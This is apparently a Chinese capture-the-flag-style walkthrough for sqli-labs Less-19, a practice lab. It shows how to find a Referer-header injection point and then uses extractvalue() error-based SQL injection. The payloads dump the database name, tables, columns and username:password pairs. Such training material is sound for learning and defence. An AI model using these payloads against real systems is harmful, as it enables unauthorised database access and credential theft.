






# Less  - 19

---

# 通关教程

---

## 1、判断注入点

---

注意到登录成功时，Referer 会被回显到网页上，我们考虑 Referer 头可能会存在注入。使用 brup 抓包，注入正确的 uname 和 passwd 之后在 Referer 头使用单引号闭合。此时发现当注入单引号闭合时，网页返回报错信息。

```html
Referer: '
```

​​

​​

注入的步骤和 Less 17 差不多，这次我们使用 extractvalue() 报错注入。extractvalue() 报错注入和 updatexml() 报错差不多，extractvalue() 函数时对 XML 文档进行查询的函数。函数原型为：

```html
extractvalue(XML_document, XPath_string)
```

|参数|说明|
| ------------------------------------------------------------------| ----------------------------|
|XML_document|String，XML 文档对象的名称|
|XPath_string|Xpath 格式的字符串|
|爆数据库名，在注入的两个单引号之间放置 extractvalue() 报错注入。||

---

## 2、查看数据库名

---

```html
' OR extractvalue(1,concat("!",database())) OR ' 
```

​​

---

## 3、查看数据表名

---

```html
' OR extractvalue(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security'))) OR ' 
```

​​

---

## 4、查看字段名

---

```html
' OR extractvalue(1,concat("!",(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'users'))) OR ' 
```

​​

---

## 5、查看字段值

---

```html
' OR (extractvalue(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)))) OR '
```

​​
